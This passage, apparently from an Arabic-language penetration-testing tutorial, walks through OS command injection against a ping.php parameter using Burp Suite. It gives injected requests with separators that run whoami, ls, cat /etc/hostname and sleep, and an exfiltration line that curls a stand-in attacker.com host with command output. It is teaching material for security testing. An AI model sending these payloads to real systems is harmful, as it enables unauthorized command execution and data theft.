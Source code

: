 | تأخير الاستجابة              | `127.0.0.1; sleep 5`                                                        | `127.0.0.1 & timeout 5`                                                  | تأخير 5 ثوانٍ في الاستجابة                                              | لتأكيد التنفيذ بدون مخرجات.                                                     |

---

## مثال عملي باستخدام Burp Suite
1. **إعداد Burp Suite**:
   - اضبط الوكيل إلى `127.0.0.1:8080`.
   - افتح المتصفح وتصفح: `http://example.com/ping.php?ip=127.0.0.1`.
2. **اختبار فواصل الأوامر**:
   - أرسل طلب في Burp Suite Repeater:
     ```
     GET /ping.php?ip=127.0.0.1; whoami HTTP/1.1
     Host: example.com
     ```
   - تحقق من الاستجابة (مثل ظهور `www-data`).
   - كرر مع `&&`, `|`, `&`:
     ```
     GET /ping.php?ip=127.0.0.1 && whoami HTTP/1.1
     Host: example.com
     ```
3. **اختبار أوامر استكشافية**:
   - أرسل:
     ```
     GET /ping.php?ip=127.0.0.1; ls HTTP/1.1
     Host: example.com
     ```
   - إذا ظهرت ملفات (مثل `index.php`), جرب قراءة ملف:
     ```
     GET /ping.php?ip=127.0.0.1; cat /etc/hostname HTTP/1.1
     Host: example.com
     ```
4. **اختبار Blind Injection**:
   - إذا لم تظهر مخرجات، أرسل:
     ```
     GET /ping.php?ip=127.0.0.1; sleep 5 HTTP/1.1
     Host: example.com
     ```
   - إذا تأخرت الاستجابة 5 ثوانٍ، الثغرة موجودة.
   - جرب إرسال بيانات:
     ```
     GET /ping.php?ip=127.0.0.1; curl http://attacker.com?data=$(whoami) HTTP/1.1
     Host: example.com
     ```
   - تحقق من السجلات على خادمك.

---
